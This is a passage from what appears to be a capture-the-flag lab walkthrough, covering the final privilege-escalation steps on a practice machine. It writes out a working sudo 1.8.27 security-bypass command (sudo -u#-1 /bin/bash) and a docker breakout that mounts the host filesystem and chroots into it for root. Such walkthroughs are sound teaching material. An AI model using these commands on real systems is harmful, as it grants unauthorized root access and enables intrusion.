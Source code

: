 Now The last thing, when you on `ropert ssh` you will notice that the sudo version is old, you can guess that because you told that the opened `ssh` is old
```bash
sudo --version
``` 
so there is an exploit for it the exploit: [sudo 1.8.27 - Security Bypass ](https://www.exploit-db.com/exploits/47502).
Now let's use it to get root permissions...
```bash
sudo -u#-1 /bin/bash
```
---
#### The Last Missions

It is a docker privilege escalation task to know more you can read here [Docker prev-escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation).
First lets find the docker...
```bash
find / -name docker 2>/dev/null
```
The directory is `/tmp/docker` go to `/tmp` and run the docker to list the docker images
```bash
./docker images
```
Let's get into the image by this command...
```bash
/tmp/docker run -it -v /:/host/ mangoman chroot /host/ bash
```

go to the root and get the last flag of this hard and loooooong room 🎉

